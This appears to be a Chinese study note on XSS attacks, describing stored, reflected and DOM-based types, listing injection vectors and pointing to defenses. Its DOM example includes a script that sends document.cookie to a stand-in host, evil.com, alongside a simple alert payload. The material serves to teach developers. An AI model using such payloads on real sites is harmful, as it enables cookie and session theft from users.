 **攻击类型**

XSS根据攻击方式和攻击目标可以分为`存储型`、`反射型`和 `DOM 型`

- `存储型`：存储型XSS攻击是一种`持久性攻击`
  - 攻击者通过提交表单等操作将将恶意代码提交到目标网站的数据库中。
  - ⽤户打开⽬标⽹站时，⽹站服务端将恶意代码从数据库取出，拼接到HTML中返回给浏览器。
  - 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。

  这种攻击常用于⽤户保存数据的⽹站功能，如论坛发帖、评论、⽤户私信、上传恶意文件等。因为是存储在数据库中，所以只要访问了这个页面的访客，都有可能执行这段恶意脚本，如果⽹站访问量很⼤的话，就会导致⼤量⽤户都受到攻击。所以说存储型XSS攻击的危害会更大一些。

- `反射型`：反射型XSS攻击是一种`非持久性攻击`

  - 攻击者构造出包含恶意代码的 URL，比如在地址后面传入一个参数或者一个script脚本
  - 用户打开带有恶意代码的 URL 时，服务端会解析出请求参数，拼接到 HTML 中返回给浏览器解析执行

  此类攻击一般出现在网站的搜索栏、跳转等操作。由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合一些手段诱导用户点击。`它和存储型 XSS 的区别:` 存储型 XSS 的恶意代码存在数据库⾥，反射型 XSS 的恶意代码存在 URL ⾥。

  ```js
  http://www.example.com/search?q=<script>alert('XSS')</script>
  ```

- `DOM 型`：是一种`非持久性攻击`

  - 攻击者通过表单、URL 参数或其他用户输入方式，将恶意脚本注入到页面中的DOM元素中，并被浏览器执行
  - 它不需要服务器端的解析响应，而是通过浏览器端的DOM解析

  ```text
  // 可被攻击的 DOM 元素 
  <div id="target"></div>

  https://example.com/page?name=<script>
    document.getElementById('target').innerHTML = '<img src="http://evil.com/steal.php?cookie=' + document.cookie + '" />'
  </script>
  ```
  
  DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执⾏恶意代码由浏览器端完成，属于前端JavaScript ⾃身的安全漏洞，⽽其他两种 XSS 都属于服务端的安全漏洞。

  **XSS 有哪些注入的方法**

  - 在 `HTML` 中内嵌的文本中，恶意内容以 `script` 标签形成注入。
  - 在标签的 `href`、`src` 等属性中，包含 `javascript:` 等可执行代码。
  - 在 `onload`、`onerror`、`onclick` 等事件中，注入不受控制代码。
  - 在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。
  - 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。
  - 在 style 属性和标签中，包含类似 background-image:url("javascript:..."); 的代码（新版本浏览器已经可以防范）。
  - 在 style 属性和标签中，包含类似 expression(...) 的 CSS 表达式代码（新版本浏览器已经可以防范）。

  总之，如果开发者没有将用户输入的文本进行合适的过滤，就贸然插入到 HTML 中，这很容易造成注入漏洞。攻击者可以利用漏洞，构造出恶意的代码指令，进而利用恶意代码危害数据安全。

### 如何防御 XSS 攻击？

[美团文章](https://juejin.cn/post/6844903685122703367#heading-13)

关于XSS的防御是非常复杂的，值得幸运的是现代浏览器、前端框架/库已经帮我们做了相当大的一部分工作。像React和Vue内部都有做防范XSS攻击的操作。
